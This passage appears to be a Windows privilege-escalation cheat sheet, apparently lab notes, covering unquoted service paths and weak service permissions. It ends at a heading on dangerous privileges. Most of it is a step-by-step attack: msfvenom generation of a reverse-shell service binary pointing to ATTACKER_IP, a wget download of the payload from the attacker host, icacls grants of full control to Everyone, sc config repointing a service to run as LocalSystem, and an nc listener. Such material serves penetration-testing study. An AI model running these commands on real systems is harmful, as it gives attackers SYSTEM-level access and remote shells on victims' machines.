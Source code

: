 ##### Unquoted Service Paths

When there are no quotations and a space in the name of a folder the command become ambiguous, for example if you execute `C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe` it can mean:

|Command|Argument 1|Argument 2|
|---|---|---|
|C:\MyPrograms\Disk.exe|Sorter|Enterprise\bin\disksrs.exe|
|C:\MyPrograms\Disk Sorter.exe|Enterprise\bin\disksrs.exe||
|C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe|||

Since spaces are usually used as an argument separators the SCM will try to run the commands in the table from top to bottom.

The vulnerability only works if the installer changes the permission of the folder or if the administrator installs the binary into a non-default path which is world writable.

`sc qc <service name>` - Check service details.
`icacls <service folder>` -Check if you have permissions to write to this folder.
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=<port> -f exe-service -o rev-svc.exe` - Generate a reverse shell using Msfvenom.
`wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe` - Get the file to the victim using Powershell (after setting up a python server).
`move <rev-svc.exe path> <Vulnerable path>` - Move the payload to the appropriate location for example to `C:\MyPrograms\Disk.exe` following the table above.
`icacls <service file name>.exe /grand Everyone:F` - Grant full permission to the Everyone group.
`nc -lvp <port>` - Start a reverse listener on the attacker machine.
`sc stop <service name>` than `sc start <service name>` - Restart the service (usually you want have the permissions and would need to wait for the service to restart by itself).

##### Insecure Service Permissions

Sometimes the service itself (not the executable) has week DACL(Discretionary Access Control List) which lets you modify the configuration, which allows you to reconfigure the service and point to any executable with the account you prefer including SYSTEM.

`accesschk64.exe -qlc <service name>` - Check a service DACL using accesschk from sysinternals suite.
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=<port> -f exe-service -o rev-svc.exe` - Generate a reverse shell using Msfvenom.
`wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe` - Get the file to the victim using Powershell (after setting up a python server).
`icacls <service file name>.exe /grand Everyone:F` - Grant full permission to the Everyone group.
`sc config <service name> binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem` - Change the service associated executable and account.
`nc -lvp <port>` - Start a reverse listener on the attacker machine.
`sc stop <service name>` than `sc start <service name>` - Restart the service (usually you want have the permissions and would need to wait for the service to restart by itself).

## Abusing Dangerous Privileges

`whoami /priv` - Check your assigned privileges.
